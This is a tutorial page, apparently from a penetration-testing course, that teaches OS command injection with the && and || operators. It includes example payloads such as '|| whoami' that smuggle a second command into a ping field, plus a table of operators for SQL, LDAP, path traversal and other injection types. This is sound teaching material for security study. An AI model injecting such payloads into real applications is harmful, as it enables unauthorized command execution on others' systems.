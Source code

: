 # Other Injection Operators

Before we move on, let us try a few other injection operators and see how differently the web application would handle them.

***

## AND Operator

We can start with the `AND` (`&&`) operator, such that our final payload would be (`127.0.0.1 && whoami`), and the final executed command would be the following:

```bash
ping -c 1 127.0.0.1 && whoami
```

As we always should, let's try to run the command on our Linux VM first to ensure that it is a working command:

```shell-session
$ ping -c 1 127.0.0.1 && whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.03 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.034/1.034/1.034/0.000 ms
21y4d
```

As we can see, the command does run, and we get the same output we got previously. Try to refer to the injection operators table from the previous section and see how the `&&` operator is different (if we do not write an IP and start directly with `&&`, would the command still work?).

Now, we can do the same thing we did before by copying our payload, pasting it in our HTTP request in `Burp Suite`, URL-encoding it, and then finally sending it:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see, we successfully injected our command and received the expected output of both commands.

***

## OR Operator

Finally, let us try the `OR` (`||`) injection operator. The `OR` operator only executes the second command if the first command fails to execute. This may be useful for us in cases where our injection would break the original command without having a solid way of having both commands work. So, using the `OR` operator would make our new command execute if the first one fails.

If we try to use our usual payload with the `||` operator (`127.0.0.1 || whoami`), we will see that only the first command would execute:

```shell-session
$ ping -c 1 127.0.0.1 || whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.635/0.635/0.635/0.000 ms
```

This is because of how `bash` commands work. As the first command returns exit code `0` indicating successful execution, the `bash` command stops and does not try the other command. It would only attempt to execute the other command if the first command failed and returned an exit code `1`.

`Try using the above payload in the HTTP request, and see how the web application handles it.`

Let us try to intentionally break the first command by not supplying an IP and directly using the `||` operator (`|| whoami`), such that the `ping` command would fail and our injected command gets executed:

```shell-session
$ ping -c 1 || whoami

ping: usage error: Destination address required
21y4d
```

As we can see, this time, the `whoami` command did execute after the `ping` command failed and gave us an error message. So, let us now try the (`|| whoami`) payload in our HTTP request:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that this time we only got the output of the second command as expected. With this, we are using a much simpler payload and getting a much cleaner result.

Such operators can be used for various injection types, like SQL injections, LDAP injections, XSS, SSRF, XML, etc. We have created a list of the most common operators that can be used for injections:

| **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        |  `\r`  `%0d` `%0a` `%09`                          |

Keep in mind that this table is incomplete, and many other options and operators are possible. It also highly depends on the environment we are working with and testing.

In this module, we are mainly dealing with direct command injections, in which our input goes directly into the system command, and we are receiving the output of the command. For more on advanced command injections, like indirect injections or blind injection, you may refer to the [Whitebox Pentesting 101: Command Injection](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) module, which covers advanced injections methods and many other topics.
